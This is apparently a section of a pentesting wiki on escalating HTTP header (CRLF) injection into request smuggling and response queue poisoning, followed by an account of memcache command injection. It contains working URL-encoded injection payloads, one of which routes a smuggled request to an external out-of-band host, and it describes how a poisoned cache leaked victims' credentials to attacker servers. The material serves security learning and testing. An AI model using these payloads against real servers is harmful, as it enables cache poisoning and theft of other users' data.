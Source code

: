 ### Header Injection to Request Smuggling

For more info about this technique and potential problems [**check the original source**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

{% content-ref url="../network-services-pentesting/11211-memcache/" %}
[11211-memcache](../network-services-pentesting/11211-memcache/)
{% endcontent-ref %}

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

<figure><img src="../.gitbook/assets/image (6) (1) (4).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&#x26;h=178&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:

<figure><img src="../.gitbook/assets/image (40).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&#x26;h=506&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

